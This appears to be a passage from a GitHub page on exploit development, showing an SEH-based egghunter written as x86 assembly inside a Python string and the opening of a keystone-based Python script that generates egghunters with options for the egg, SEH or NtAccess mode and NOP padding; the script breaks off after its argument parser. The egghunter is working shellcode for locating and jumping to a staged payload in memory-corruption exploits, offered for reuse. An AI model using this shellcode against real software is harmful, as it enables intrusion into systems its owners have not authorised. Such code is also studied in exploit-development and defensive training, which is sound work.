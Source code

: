 ## SEH Egghunting
```
CODE = (
            "	start: 									 "
            "		jmp get_seh_address 				;"
            "	build_exception_record: 				 "
            "		pop ecx 							;"
            f"		mov eax, 0x{egg_little_endian}			;"
            "		push ecx 							;"
            "		push 0xffffffff 					;"
            "		xor ebx, ebx 						;"
            "		mov dword ptr fs:[ebx], esp 		;"
            "	is_egg: 								 "
            "		push 0x02 							;"
            "		pop ecx 							;"
            "		mov edi, ebx 						;"
            "		repe scasd 							;"
            "		jnz loop_inc_one 					;"
            "		jmp edi 							;"
            "	loop_inc_page: 							 "
            "		or bx, 0xfff 						;"
            "	loop_inc_one: 							 "
            "		inc ebx 							;"
            "		jmp is_egg 							;"
            "	get_seh_address: 						 "
            "		call build_exception_record 		;"
            "		push 0x0c 							;"
            "		pop ecx 							;"
            "		mov eax, [esp+ecx] 					;"
            "		mov cl, 0xb8						;"
            "		add dword ptr ds:[eax+ecx], 0x06	;"
            "		pop eax 							;"
            "		add esp, 0x10 						;"
            "		push eax 							;"
            "		xor eax, eax 						;"
            "		ret 								;"
        )
```

## Scripts

Finally You can use the following code to generate your own egg hunter:
```
import sys
import os
import argparse
from keystone import *

OUTPUT_PATH = None
ARGS = None

def setup_arguments():
    parser = argparse.ArgumentParser(description='EggHunter Generator.')
    parser.add_argument('--egghunter', action='store_true', help='Enable egg hunter mode.')
    parser.add_argument('--egg', help='Egg to use with the egg hunter, must be exactly 4 characters long.')
    parser.add_argument('--seh', action='store_true', help='Use SEH based egg hunter.')
    parser.add_argument('--ntaccess', help='Use NTACCESS based egg hunter, requires a value.')
    parser.add_argument('--nopbefore', type=int, default=0, help="Number of Nops to add before the Egghunter.")
    parser.add_argument('--nopafter', type=int, default=0, help="Number of Nops to add after the Egghunter.")
```